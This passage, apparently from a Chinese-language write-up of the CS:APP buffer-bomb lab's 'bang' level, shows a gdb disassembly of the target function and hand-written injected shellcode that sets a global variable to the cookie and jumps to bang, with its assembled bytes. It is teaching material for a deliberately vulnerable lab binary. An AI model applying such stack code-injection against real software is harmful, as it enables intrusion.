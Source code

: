 ```assembly
(gdb) disass bang 
Dump of assembler code for function bang:
   0x08048d52 <+0>:		push   %ebp
   0x08048d53 <+1>:		mov    %esp,%ebp
   0x08048d55 <+3>:		sub    $0x18,%esp
   0x08048d58 <+6>:		mov    0x804d10c,%eax
   0x08048d5d <+11>:	cmp    0x804d104,%eax				
   /* 0x804d104地址中是用户cookie，根据bang的c代码可以确定这里是比较global_value和cookie */
   0x08048d63 <+17>:	jne    0x8048d8b <bang+57>
   0x08048d65 <+19>:	mov    %eax,0x8(%esp)
   0x08048d69 <+23>:	movl   $0x804a4ac,0x4(%esp)
   0x08048d71 <+31>:	movl   $0x1,(%esp)
   0x08048d78 <+38>:	call   0x8048990 <__printf_chk@plt>
   0x08048d7d <+43>:	movl   $0x2,(%esp)
   0x08048d84 <+50>:	call   0x8049280 <validate>
   0x08048d89 <+55>:	jmp    0x8048da3 <bang+81>
   0x08048d8b <+57>:	mov    %eax,0x8(%esp)
   0x08048d8f <+61>:	movl   $0x804a2c2,0x4(%esp)
   0x08048d97 <+69>:	movl   $0x1,(%esp)
   0x08048d9e <+76>:	call   0x8048990 <__printf_chk@plt>
   0x08048da3 <+81>:	movl   $0x0,(%esp)
   0x08048daa <+88>:	call   0x80488d0 <exit@plt>
End of assembler dump.
```

可以推断地址0x804d10c就是global_value的地址，使用x/4bx查看：

![截屏2024-05-23 下午8.41.04](截屏2024-05-23 下午8.41.04.png)

确定了global_value的地址后开始编写漏洞代码：

```assembly
mov 0x804d104,%eax	/* mov Cookie into %eax */
mov %eax,0x804d10c	/* set global_value as Cookies */
push $0x8048d52			/* push the address of bang into stack*/
ret									/* goto bang */
```

使用工具得到反汇编代码

```assembly
level4.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 04 d1 04 08       	mov    0x804d104,%eax
   5:	a3 0c d1 04 08       	mov    %eax,0x804d10c
   a:	68 52 8d 04 08       	push   $0x8048d52
   f:	c3                   	ret    
```

最终得到的机器码为
